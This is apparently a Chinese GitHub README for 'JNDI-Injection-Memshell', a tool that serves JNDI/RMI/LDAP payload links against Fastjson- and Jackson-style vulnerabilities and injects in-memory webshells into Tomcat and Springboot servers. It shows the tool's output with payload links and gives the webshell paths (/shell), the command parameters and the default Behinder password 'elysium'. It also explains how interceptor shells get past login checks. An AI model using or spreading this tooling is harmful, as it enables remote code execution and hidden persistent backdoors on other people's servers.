 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links----------------------------
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/j3zha7
ldap://127.0.0.1:1389/j3zha7
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/qrxwmq
ldap://127.0.0.1:1389/qrxwmq
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/i7ukcl
ldap://127.0.0.1:1389/i7ukcl
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/wxzn7u
ldap://127.0.0.1:1389/wxzn7u
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/hrrq2s
ldap://127.0.0.1:1389/hrrq2s
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/djodn7
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/xmw45d
ldap://127.0.0.1:1389/xmw45d

----------------------------Server Log----------------------------
2023-08-28 15:04:30 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-28 15:04:30 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-28 15:04:30 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

	![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	​	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)



## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。

## 待实现

- 添加filter、~~Interceptor~~类型的内存马。
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)

